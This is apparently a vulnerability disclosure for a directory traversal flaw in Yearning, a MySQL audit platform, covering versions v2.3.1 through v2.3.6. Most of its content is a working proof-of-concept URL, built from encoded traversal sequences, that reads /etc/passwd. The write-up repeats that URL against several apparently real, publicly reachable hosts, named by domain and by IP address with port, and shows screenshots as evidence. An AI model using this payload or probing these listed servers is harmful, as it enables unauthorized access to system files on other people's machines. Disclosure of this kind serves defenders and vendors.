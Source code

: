 # yearning has Directory traversal vulnerability

## Overview

Manufacturer's website information：http://yearning.io/

## 1. Affected version

version: v2.3.1 Interstellar GA 

version: v 2.3.2 Interstellar GA 

version: v 2.3.4 Neptune 

version: v 2.3.5 Neptune

version: v 2.3.6 Neptune

## 2.Vulnerability details

POC

```
/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```



version: v2.3.1 Interstellar GA 

https://mysql.zb-sx.cn/#/login

![image-20220308110341311](img/image-20220308110341311.png)

https://mysql.zb-sx.cn/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308110402638](img/image-20220308110402638.png)



version: v 2.3.2 Interstellar GA 

http://18.162.92.125/#/login

![image-20220308132832379](img/image-20220308132832379.png)

http://18.162.92.125/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308132924261](img/image-20220308132924261.png)

version: v 2.3.4 Neptune

![image-20220308133058103](img/image-20220308133058103.png)

http://47.93.26.226:9000/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133131271](img/image-20220308133131271.png)

version: v 2.3.5 Neptune

http://39.100.157.58:8001/#/login

![image-20220308133321571](img/image-20220308133321571.png)

http://39.100.157.58:8001/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133346233](img/image-20220308133346233.png)

version: v 2.3.6 Neptune

http://182.92.66.166:8086/#/login

![image-20220308133438261](img/image-20220308133438261.png)

http://182.92.66.166:8086/front//%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

![image-20220308133520192](img/image-20220308133520192.png)



## Vulnerability impact

Yearning is a MySQL audit platform. There is a directory traversal vulnerability in Yearning, which can be used by attackers to obtain sensitive information.

